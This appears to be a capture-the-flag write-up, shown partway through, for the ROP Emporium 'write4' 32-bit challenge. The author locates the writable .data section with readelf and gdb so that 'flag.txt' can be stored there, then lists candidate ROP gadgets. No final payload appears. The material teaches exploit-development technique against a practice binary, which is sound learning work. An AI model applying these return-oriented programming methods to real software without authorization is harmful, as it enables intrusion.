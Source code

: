 So, we know that we want to use ROP to change the arguments that are on the stack when the "print_file" function is called. With the previous challenges we were able to leverage "usefulString" to open the file that we wanted, but in this case, there is no "usefulString" in memory... :'(

We need to write a string to memory.
We need to use a ROPgadget to do this.

This article is a pretty good reference if you're following along: [ROP FTW](https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf)

After a bit of reading, looks like we should look at what sections are writeable...

Looks like we can write to the data section:

	$ readelf -S write432  | grep data
	  [16] .rodata           PROGBITS        080485c8 0005c8 000014 00   A  0   0  4
	  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4


Let's locate it in memory:

	$ !! | grep data
	readelf -s write432 | grep data
	     5: 0804a020     0 NOTYPE  GLOBAL DEFAULT   24 _edata
	    50: 0804a018     0 NOTYPE  WEAK   DEFAULT   24 data_start
	    51: 0804a020     0 NOTYPE  GLOBAL DEFAULT   24 _edata
	    53: 0804a018     0 NOTYPE  GLOBAL DEFAULT   24 __data_start

We can also do this using mmap in gdb:

	gef➤  info files
	Symbols from "/home/ubuntu/ropemporium/write4/write432".
	Native process:
		Using the running image of child process 18967.
		While running this, GDB does not access memory from...
	Local exec file:
		`/home/ubuntu/ropemporium/write4/write432', file type elf32-i386.
		Entry point: 0x80483f0
		...
		0x0804a018 - 0x0804a020 is .data
		...	
	
So we have 8 Bytes of data that we can write to in the .data section, which starts at 0x0804a018 and ends at 0x0804a01c.
Flag.txt is 8 Bytes, so we shouldddd be able to fit that into the data section.

# Choosing Gadgets 

Okay, let's look at some of the ROP gadgets...
These are some of the relevant gadgets: 

	$ ROPgadget --binary write432
	0x08048472 : add esp, 0x10 ; leave ; ret
	0x0804853d : add esp, 0x10 ; nop ; leave ; ret
	
	0x080485a5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0x08048521 : add esp, 4 ; pop ecx ; pop ebp ; lea esp, [ecx - 4] ; ret
	0x0804839a : add esp, 8 ; pop ebx ; ret
	x08048479 : lea edi, [edi] ; ret
	0x080484c4 : lea esi, [esi] ; ret
	0x08048526 : lea esp, [ecx - 4] ; ret
	
